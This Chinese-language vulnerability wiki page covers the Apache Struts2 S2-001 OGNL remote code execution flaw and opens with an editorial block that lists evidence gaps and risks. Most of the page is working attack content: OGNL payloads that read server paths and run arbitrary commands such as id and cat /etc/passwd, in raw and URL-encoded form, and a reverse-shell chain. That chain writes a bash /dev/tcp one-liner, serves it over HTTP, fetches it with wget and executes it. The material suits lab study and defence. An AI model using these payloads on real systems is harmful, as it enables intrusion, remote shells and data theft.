




# Apache Struts2 S2-001 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响历史版本，验证失败后回填不可信表单值触发OGNL；对应标签模板/Action配置
- 证据范围：失败回填原因明确，表达式与命令操作一致，缺完整请求和版本元数据。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 没有受影响/修复版本或CVE映射，应查官方后补，不凭S编号猜测
- getProperty(user.dir)是进程工作目录，不能保证Tomcat bin目录
- 缺实际字段和验证失败条件HTTP示例，依赖图片/外部实验
- wget写cwd后硬编码/usr/local/tomcat/shell.sh可能不一致
- 反弹/创建文件有残留，缺修复建议

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 `%{value}` 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 `%{value}` 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行.

参考阅读：

- http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

## 环境搭建

Vulhub 执行以下命令启动 s2-001 测试环境：

```shell
docker-compose build
docker-compose up -d
```

## 漏洞复现

获取 tomcat 执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取 Web 路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```
# URLencode后
%25%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22id%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new%20java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```




### 反弹 shell

准备反弹 Shell 文件 shell.sh：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
```

启动 http server：

```
# python2
python -m SimpleHTTPServer 80

# python3
python -m http.server 80
```

上传 shell.sh 文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"wget","192.168.174.128/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```




执行 shell.sh 文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","/usr/local/tomcat/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```




监听 9999 端口，接收反弹 shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
